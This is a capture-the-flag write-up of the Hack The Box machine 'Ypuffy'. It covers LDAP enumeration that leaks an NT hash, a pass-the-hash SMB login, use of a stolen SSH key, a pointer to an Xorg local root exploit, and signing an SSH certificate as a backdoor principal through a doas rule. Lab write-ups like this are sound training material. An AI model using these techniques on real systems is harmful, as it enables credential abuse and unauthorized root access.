


  

***

# External Recon
Let's start with nmap. But let's spice it up a bit with an additional script:

`nmap -sC -sV -oN initial --script discovery 10.10.10.107`

The output is quite big. You can the output <a href="https://www.tagnull.de/post/ypuffy/nmap.txt">here</a>.

The script tries to get as much information as possible of your target and in this case shows some LDAP information
and the following open ports:

| Open Ports |
|:----------:|
|22, 80, 139, 389, 445|

# Explore
The `sambaNTPassword` Hash immediately caught my attention.


sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B


As this is very juicy information. I paused my enumeration and tried to exploit this.
But how?

Password hashes are often used as a substitude to passwords. Which means, you don't
need the original password to authenticate to a service. Just the hash. This is how
your corporate single-sign-on stuff works. Otherwise you would have to login every time.
So it's a convenience thing.

The method is called Pass-The-Hash. And of cause there are tools out there, that help
you with this. Like: `pth-smbclient`. If you don't have it, just got to github and get the `pth-toolkit`.

# Exploit
After fiddeling around with the options, syntax and where to connect to I managed to connect to alice
share:

`pth-smbclient --user=alice1978 --pw-nt-hash -m smb3 \\\\10.10.10.107\\alice 0B186E661BBDBDCF6047784DE8B9FD8B`

And we find a private key in "ppk" format.

After downloading the file, and trying to use it as a key to access ssh I got an error.
This format is not compatible with ssh. So, I tried converting it. A quick googlesearch helped
me finding the correct command for this task. But first we need to install putty-tools.


puttygen my_private_key.ppk -O private-openssh -o id_rsa
mv ~/.ssh
chmod 600 id_rsa
ssh -i id_rsa alice1978@10.10.10.107


# User Flag

As you can see in the screenshot. A simple `ls` gives us the "user.txt".

# Internal Recon
A quick `uname -a` reveals a BSD box. Which was quite handy. Shortly after this box
was released an exploit for the XORG component of most BSD boxes was published. It's local privesc which gives you root access.
This is something you only get by googleing or being up-to-date with infosec news.
This was the route I took to root the box.

However the intended method was a bit more tricky. While searching the directory structure I noticed
a folder "userca". 
"CA" in this context mostly means "Certificate Authority" and is there to sign certificates or issue new keys. Let's say: "ssh".

Furthermore BSD has something like `sudo`, called `doas`. Let's check what we can do on this box.


ypuffy$ cat /etc/doas.conf
permit
keepenv :wheel
permit nopass alice1978 as userca cmd /usr/bin/ssh-keygen


We indeed can run `ssh-keygen`. But when we try, we are prompted for a password. Let's dig deeper in the ssh route.
There's a password somewhere for sure.


ypuffy$ cat sshd_config
[...]
AuthorizedPrincipalsCommand /usr/local/bin/curl http://127.0.0.1/sshauth?type=principals&username=%u


So, apparently we can issue a `curl` to the "CA"...I guess, not sure what happens here. I still need to look this up...

# Privilege Escalation
Let's step back and catch up with the XORG exploit first.
The exploit is fairly easy to use. Just get it from <a href="https://www.exploit-db.com/exploits/45742" target="_blank">Exploit-db</a>.
It's very easy to use.
* Download
* chmod +x
* run
* root
 
 

Let's get back to the `curl` command and check what we can do with it:


ypuffy$ /usr/local/bin/curl "http://127.0.0.1/sshauth?type=principals&username=root"
3m3rgencyB4ckd00r


For whatever reason we get this string back: `3m3rgencyB4ckd00r` - obviously the missing password.
Let's create a key and try signing it.


ypuffy$ ssh-keygen -t rsa
ypuffy$ mv id_rsa.pub /tmp
ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -n 3m3rgencyB4ckd00r -I "algo" -z 1 id_rsa.pub
  Signed user key id_rsa-cert.pub: id "algo" serial 1 for 3m3rgencyB4ckd00r valid forever
ypuffy$ cp id_rsa-cert.pub /home/alice1978/.ssh/


This seems to work so far. But can we login now?

# Root Flag


ypuffy$ ssh root@localhost
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018
ypuffy# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
ypuffy# ls
  root.txt


This is it. We got the box. =)

See ya next time!

x41